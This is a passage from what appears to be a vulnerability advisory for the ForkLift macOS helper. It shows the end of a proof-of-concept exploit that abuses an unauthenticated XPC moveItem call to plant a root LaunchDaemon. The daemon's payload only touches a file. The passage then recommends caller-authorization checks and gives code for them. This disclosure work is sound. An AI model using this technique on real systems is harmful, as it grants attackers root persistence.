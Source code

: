 ```c
        "  <array>"
        "      <string>/bin/zsh</string>"
      "      <string>-c</string>"
      "      <string>touch /Library/foobar.txt</string>"
        "  </array>"
        "    <key>RunAtLoad</key>"
        "    <true/>"
        "</dict>"
        "</plist>";
        
        [my_plist writeToFile:@"/tmp/com.sample.Load.plist" atomically:YES encoding:NSASCIIStringEncoding error:nil];
        
        NSString*  _serviceName = kXPCHelperMachServiceName;

        NSXPCConnection* _agentConnection = [[NSXPCConnection alloc] initWithMachServiceName:_serviceName options:4096];
        [_agentConnection setRemoteObjectInterface:[NSXPCInterface interfaceWithProtocol:@protocol(_TtP4main21ForkLiftHelperProtcol_)]];
        [_agentConnection resume];

        //        run user script as root/
        [[_agentConnection remoteObjectProxyWithErrorHandler:^(NSError* error) {
            (void)error;
            NSLog(@"Connection Failure");
        }] moveItem:@"/tmp/com.sample.Load.plist" targetPath:@"/Library/LaunchDaemons/com.sample.Load.plist" reply:^(NSError * err){
            NSLog(@"Reply, %@", err);
        }];
        NSLog(@"Done!");
    }
    return 0;
}
```

## Recommendation

It is recommended to enforce authorization when calling the XPC helper. 

These authorization checks should contain:
- The caller is a valid signed application
- The caller application was well hardened against DYLIB injection attacks (runtime flag)
- The caller application has the correct TeamID from the Software Company

An excellent resource for the authorization checks can be found from the [1] source.

The following example ``shouldAcceptNewConnecton`` functions displays the different stages of the correct authorization checks:

```c
@interface NSXPCConnection(PrivateAuditToken)

// This property exists, but it's private. Make it available:
@property (nonatomic, readonly) audit_token_t auditToken;

@end

// In the NSXPCListenerDelegate:
- (BOOL)listener:(NSXPCListener *)listener shouldAcceptNewConnection:(NSXPCConnection *)connection {
   audit_token_t auditToken = connection.auditToken;
   NSData *tokenData = [NSData dataWithBytes:&auditToken length:sizeof(audit_token_t)];
   NSDictionary *attributes = @{(__bridge NSString *)kSecGuestAttributeAudit : tokenData};
   SecCodeRef code = NULL;
```